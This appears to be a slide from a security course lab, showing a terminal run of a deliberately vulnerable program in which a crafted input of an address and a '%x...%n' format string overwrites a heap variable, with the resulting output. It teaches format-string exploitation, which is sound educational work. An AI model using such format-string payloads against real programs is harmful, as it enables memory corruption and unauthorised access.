

# Modify Secret - Provide Input
$ ./vul_prog
The variable secret's address is 0xbfa86530 (on stack)
The variable secret's value is 0x 9ac3008 (on heap)
secret[0]'s address is 0x 9ac3008 (on heap)
secret[1]'s address is 0x 9ac300c (on heap)
Please enter a decimal integer
162279436
Please enter a string
%x,%x,%x,%x,%x,%x,%x,%x,%n
bfa86538,1,b760f309,bfa8655f,bfa8655e,0,bfa86644,9ac3008,
The original secrets: 0x44 -- 0x55
The new secrets:  	0x44 -- 0x39

Modified Secret[1] value